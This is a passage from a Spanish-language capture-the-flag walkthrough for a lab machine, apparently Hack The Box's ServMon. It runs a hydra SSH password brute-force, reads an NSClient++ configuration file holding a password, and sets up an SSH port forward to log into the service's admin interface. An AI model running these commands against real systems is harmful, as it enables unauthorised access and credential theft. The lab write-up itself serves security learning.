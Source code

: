 `hydra -L users.txt -P password.txt 10.10.10.184 ssh`

![4](images/4.png)

`ssh Nadine@10.10.10.184`

![5](images/5.png)

## Escalada de Privilegios

Revisando los archivos de la aplicación llamada **NSClient++** que corre en el puerto 8443 podemos ver el archivo **nsclient.ini** que contiene un password y el host permitido que es **127.0.0.1**.

`type "C:\Program Files\NSClient++\nsclient.ini"`

![6](images/6.png)

Usaremos SSH para hacer un port forwarding del puerto 8443 para acceder de forma local.

`ssh -L 8443:127.0.0.1:8443 -N Nadine@10.10.10.184`

![7](images/7.png)

Iniciamos sesión con el password anterior.

`https://127.0.0.1:8443/`
